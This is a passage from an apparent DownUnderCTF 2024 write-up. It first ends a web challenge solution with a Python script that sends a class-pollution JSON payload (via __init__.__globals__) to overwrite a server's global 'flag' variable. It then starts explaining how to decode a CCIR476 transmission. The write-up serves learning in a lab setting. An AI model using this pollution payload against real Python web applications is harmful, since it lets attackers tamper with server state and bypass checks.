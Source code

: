And it worked! I was able to get from `None` to `true`. However, when testing this payload on the actual remote server, I was not able to get the flag. After some thinking, I realized that that this change is not persistent. The `get_flag` endpoint checks the value of the global variable `flag`, which is set to `os.getenv("flag")` when the server starts. This means that even if we change the environment variable, the server will still check the original value. So, we need to find a way to change the value of the global variable `flag`. This is actually simpler than setting the environment variable, as we can just set the value of the global variable directly.

```python
import json
import requests

def remote_solve():
    cookies = {
        'session': 'redacted'
    }
    exploit = {
        "__init__": {
            "__globals__": {
                "flag": "true"
            }
        }
    }
    url = 'https://web-co2-630afc019691685b.2024.ductf.dev'
    r = requests.post(url+"/save_feedback", cookies=cookies, json=exploit)
    print(r.text)
    r = requests.get(url+"/get_flag", cookies=cookies)
    print(r.text)
    
remote_solve()
```

And we get the flag!

# Misc

## Intercepted Transmission

> Those monsters! They've kidnapped the Quokkas! Who in their right mind would capture those friendly little guys.. We've managed to intercept a CCIR476 transmission from the kidnappers, we think it contains the location of our friends! Can you help us decode it? We managed to decode the first two characters as '##'

We're told that the transmission is CCIR476 encoded. A quick [search](https://en.wikipedia.org/wiki/CCIR_476) tells us that it is a radio communication protocol where each character is represented by a 7-bit code. Four of the bits are `1` and three are `0`, to allow for single bit error correction.

All we need is a mapping of the 7-bit code to the character it represents, which we can find [here](https://web.archive.org/web/20220211215211/http://www.discolodxgroup.cl/documentos/otros/ARRL%202013%20Handbook/ARRL%202013%20Handbook%20Supplemental%20Files/Chapter%2016/ITA2-CODES.pdf).

There are two special control characters, `LTRS` and `FIGS`, which switch between letters and figures respectively, so we need to keep track of what mode we're in.

